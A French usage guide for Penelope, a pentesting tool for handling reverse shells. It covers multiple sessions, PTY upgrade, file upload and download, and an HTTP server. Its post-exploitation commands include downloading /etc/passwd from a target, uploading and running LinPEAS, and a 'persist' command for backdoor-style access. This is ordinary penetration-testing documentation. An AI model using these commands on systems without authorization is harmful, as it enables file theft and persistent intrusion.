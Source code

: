 
# Penelope - Guide d'utilisation

**Penelope** est un outil puissant permettant aux pentesters d'améliorer leur gestion des shells, avec des fonctionnalités comme le maintien de sessions multiples, l'auto-upgrade des shells en PTY, et la gestion des uploads/téléchargements.

---

## Connexion à une cible
L'option `-c` (connect) permet de se connecter à une cible qui écoute sur le port 3333.

---

## Fonctions de téléchargement et d'upload

Penelope inclut des commandes pour télécharger et uploader des fichiers depuis ou vers la machine cible.

### Télécharger un fichier de la cible
```bash
download /etc/passwd
```

### Uploader un fichier vers la cible
```bash
upload linpeas.sh /tmp
```

**Explication** :
- `download` : Télécharge un fichier spécifié depuis la machine cible.
- `upload` : Envoie un fichier local vers la cible, dans le chemin spécifié (par exemple `/tmp`).

---

## Maintien de sessions multiples

Une des fonctionnalités puissantes de Penelope est la gestion de multiples sessions. Penelope permet de maintenir un certain nombre de shells actifs sur une cible, et si une session est perdue, elle sera automatiquement recréée.

```bash
python3 penelope.py --maintain 2
```
**Explication** :  
`--maintain` : Cette option permet de maintenir deux sessions actives avec la cible. Si l'une des sessions tombe, elle est automatiquement recréée.

---

## Auto-upgrade en shell PTY

Penelope tente automatiquement d'upgrader un shell simple en **PTY** (Pseudo-Terminal), afin de permettre l'utilisation de commandes interactives (comme `nano`, `top`, etc.) et d'améliorer l'expérience shell.

Cela se fait automatiquement lorsqu'une connexion est établie. Toutefois, si le shell n'est pas automatiquement amélioré, vous pouvez forcer un upgrade manuel avec la commande suivante :
```bash
upgrade
```
**Explication** :  
`upgrade` : Tente de convertir le shell actuel en un shell interactif avec PTY.

---

## Fonctionnalités de persistance

Penelope peut ajouter de la persistance à votre connexion, en maintenant un certain nombre de sessions ou en ajoutant des backdoors. Pour configurer la persistance, utilisez la commande suivante :
```bash
persist
```
**Explication** :  
Cette commande tente de maintenir l'accès à la machine compromise même après un redémarrage ou d'autres interruptions.

---

## Serveur HTTP intégré

Penelope dispose également d'un serveur HTTP intégré pour partager des fichiers facilement entre votre machine et la cible.
```bash
python3 penelope.py -s --port 8000
```
**Explication** :  
`-s` active le serveur HTTP, et l'option `--port` permet de spécifier un port particulier (8000 dans cet exemple).

---

## Exécution de scripts locaux sur la cible

Penelope vous permet d'exécuter des scripts locaux sur la machine cible et d'obtenir les résultats sur votre machine.
```bash
run script.sh
```

---

## Scénarios d'utilisation

### Exemple 1 : Maintenir un accès constant à une machine
Si vous souhaitez maintenir deux sessions actives avec une machine cible pour ne pas perdre l'accès, vous pouvez exécuter :
```bash
python3 penelope.py --maintain 2
```
Penelope régénérera une nouvelle session si une des connexions est perdue, vous garantissant ainsi un accès constant à la cible.

### Exemple 2 : Exécuter des scripts de post-exploitation
Après avoir établi une connexion shell, vous pouvez facilement uploader et exécuter des scripts de post-exploitation, comme **LinPEAS** pour énumérer les informations sur la cible.
```bash
upload linpeas.sh /tmp
run /tmp/linpeas.sh
```

---

## Conclusion

Penelope est un outil puissant pour les pentesters cherchant à améliorer leur gestion des shells. Grâce à ses fonctionnalités telles que le maintien de sessions multiples, l'auto-upgrade des shells en PTY, et la gestion des uploads/téléchargements, il simplifie grandement les tâches de post-exploitation.
